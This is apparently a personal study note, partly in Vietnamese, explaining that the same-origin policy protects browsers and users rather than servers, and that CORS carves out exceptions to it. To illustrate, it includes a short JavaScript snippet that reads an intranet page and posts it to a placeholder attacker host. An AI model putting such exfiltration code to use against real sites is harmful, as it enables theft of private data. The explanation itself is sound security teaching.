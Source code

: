 ```yaml
---
share: true
created: 2023-10-30T14:29
updated: 2024-11-30T13:40
alias: same-origin policy là để trình duyệt bảo vệ người dùng, không phải để bảo vệ máy chủ
---
```

You are at work and you're connected to your company's intranet. Only people in your company's network can see this special website containing secret documents.

You visit this random website: [https://evil.website](https://evil.website). On this website, there is the following code:
```js
const fetchResult = await fetch("https://yourcompany.website/secret/documents");
const secretsPage = await fetchResult.text();
await fetch("https://evil.website/database/save", { method: "post", body: secretsPage });
```

Same origin policy (enabled on every browser) disallows this. You cannot be on evil.website and make a request to another website. So line 1 would throw an error and the rest of the code wouldn't run, saving you from a nasty situation.

CORS exists to loosen up this rule. Maybe yourcompany.website is totally cool with the above scenario because evil.website is their poorly named trusted partner. So yourcompany.website sets up CORS to tell the browser: "hey if you're making this request from evil.website, it's totally cool with us." Now the above code will work as expected as the browser is satisfied with this exception to the same origin policy.

In the above example, your browser was potentially being abused to exfiltrate company secrets that are only accessible from your network. Same origin policy protects **your browser** from being abused in these ways. CORS is about providing exceptions to this rule.

The misconception here is the following. People set up CORS on their webserver. That's why they expect CORS protects their web server in some way. This is 100% wrong. Setting CORS up properly is about protecting the clients (ie. browsers). The only side-effect CORS has for your webserver is that it may add a few response headers to help out the browser make a decision. The real magic happens on the browser.

Trích từ:: [What is CORS and why is it so annoying : r/reactjs](https://www.reddit.com/r/reactjs/comments/11cyejn/comment/ja77iy4/)

[How to win at CORS - JakeArchibald.com](https://jakearchibald.com/2021/cors/)
![](https://wizardzines.com/images/uploads/why-same-origin-matters.png) 
[Same-origin policy ngăn chặn việc script ở tab này điều khiển tab kia](./Same-origin%20policy%20ng%C4%83n%20ch%E1%BA%B7n%20vi%E1%BB%87c%20script%20%E1%BB%9F%20tab%20n%C3%A0y%20%C4%91i%E1%BB%81u%20khi%E1%BB%83n%20tab%20kia.md)
[Origin là sự kết hợp của protocol, hostname và port](../../../../%F0%9F%96%A5%EF%B8%8FM%E1%BA%A1ng%20m%C3%A1y%20t%C3%ADnh/T%C3%AAn%20mi%E1%BB%81n,%20URI/Origin%20l%C3%A0%20s%E1%BB%B1%20k%E1%BA%BFt%20h%E1%BB%A3p%20c%E1%BB%A7a%20protocol,%20hostname%20v%C3%A0%20port.md)
[Nếu tạo CORS proxy thì chỉ trả về đúng HTML thôi, đừng xử lý gì trên đó hết](./N%E1%BA%BFu%20t%E1%BA%A1o%20CORS%20proxy%20th%C3%AC%20ch%E1%BB%89%20tr%E1%BA%A3%20v%E1%BB%81%20%C4%91%C3%BAng%20HTML%20th%C3%B4i,%20%C4%91%E1%BB%ABng%20x%E1%BB%AD%20l%C3%BD%20g%C3%AC%20tr%C3%AAn%20%C4%91%C3%B3%20h%E1%BA%BFt.md)